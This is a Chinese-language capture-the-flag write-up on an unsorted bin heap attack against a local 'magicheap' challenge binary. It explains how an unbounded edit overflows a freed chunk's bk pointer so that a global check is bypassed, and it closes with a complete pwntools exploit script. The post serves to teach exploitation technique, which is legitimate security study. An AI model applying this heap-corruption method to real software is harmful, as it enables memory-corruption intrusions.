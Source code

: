 ```yaml
---
title: Unsorted BIN Attack
date: 2018-07-26 08:37:40
tags: [CTF, PWN]
categories: PWN练习
---
```

# Unsorted bin attack白板pwn复现

​	这题可以用unsorted bin attack解决，64位下当>0x80大小的chunk被free时就会被分配到unsorted bin，而此题可以通过edit控制已经free掉的chunk的fd和bk，经过这么多天的刷题对堆题还是可以说是颇有感悟的，一般堆上的漏洞都发生在free后的chunk中，<!--more-->即我们可以通过溢出或其它方法修改已经free掉的chunk的fd、bk、pre_size、size等chunk_header中的元数据，修改指针指向，然后一般就能进行利用了。
这题就是这样，edit函数中对用户的输入长度没有做限制，导致攻击者可以通过溢出修改已free的chunk的fd和bk，这里通过修改bk指针使其指向magic-0x10，这样当之前delete后的chunk从unsorted bin中unlink后，magic-0x10的fd就指向了链表头部0x7f1c705ffb78，即magic的值就变为链表头部地址，之后输入choice就可以绕过了。

贴上exp：

```
from pwn import *

p=process('./magicheap')

magic=0x00000000006020C0

gdb.attach(p,'''

    break *0x0000000000400C8C

    continue

''')

def create(size,content):

    p.recvuntil('Your choice :')

    p.sendline('1')

    p.recvuntil('Size of Heap : ')

    p.sendline(str(size))

    p.recvuntil('Content of heap:')

    p.sendline(str(content))

def edit(index,size,content):

    p.recvuntil('Your choice :')

    p.sendline('2')

    p.recvuntil('Index :')

    p.sendline(str(index))

    p.recvuntil('Size of Heap : ')

    p.sendline(str(size))

    p.recvuntil('Content of heap : ')

    p.sendline(str(content))

def dele(index):

    p.recvuntil('Your choice :')

    p.sendline('3')

    p.recvuntil('Index :')

    p.sendline(str(index))

def exit():

    p.recvuntil('Your choice :')

    p.sendline('4')

create(0x80,'0000')

create(0x80,'1111')

create(0x80,'2222')

dele(1)

edit(0,0x100,'a'*0x80+p64(0)+p64(0x90)+p64(0)+p64(magic-0x10))

create(0x80,'3333')  # the chunk1(index 1) unlink (malloc ) from unsorted bin ,and the fake bk point to the main-arena 

create(0x80,'4444')

p.recvuntil('Your choice :')

p.sendline('4869')

print p.recv(1024)

p.interactive()

```

